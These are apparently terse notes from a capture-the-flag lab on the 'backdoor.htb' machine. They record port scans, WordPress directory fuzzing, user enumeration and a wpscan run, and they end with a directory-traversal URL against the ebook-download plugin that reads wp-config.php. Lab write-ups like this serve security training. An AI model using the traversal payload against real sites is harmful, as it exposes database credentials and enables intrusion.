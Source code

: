 nmap 

80
22
1337
***

http

/index.php 

wordpress

index.php               [Status: 301, Size: 0, Words: 1, Lines: 1]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 317, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 318, Words: 20, Lines: 10]
xmlrpc.php              [Status: 405, Size: 42, Words: 6, Lines: 1]


wiht php extention

index                   [Status: 301, Size: 0, Words: 1, Lines: 1]
wp-cron                 [Status: 200, Size: 0, Words: 1, Lines: 1]
wp-blog-header          [Status: 200, Size: 0, Words: 1, Lines: 1]
wp-config               [Status: 200, Size: 0, Words: 1, Lines: 1]
wp-load                 [Status: 200, Size: 0, Words: 1, Lines: 1]
wp-links-opml           [Status: 200, Size: 223, Words: 12, Lines: 12]
wp-login                [Status: 200, Size: 5674, Words: 282, Lines: 99]
wp-mail                 [Status: 403, Size: 2616, Words: 191, Lines: 121]
wp-trackback            [Status: 200, Size: 135, Words: 11, Lines: 5]
wp-signup               [Status: 302, Size: 0, Words: 1, Lines: 1]
xmlrpc                  [Status: 405, Size: 42, Words: 6, Lines: 1]

found http://backdoor.htb/ added to host file

*** 
admin userfound.

username enum on wordpress

WordPress/5.8.1

***

tested sql on wp-login.php : failed

***

http://backdoor.htb/wp-includes/ : looks interesting.

run wpscan using api tokens

direcotry traversal found :

http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php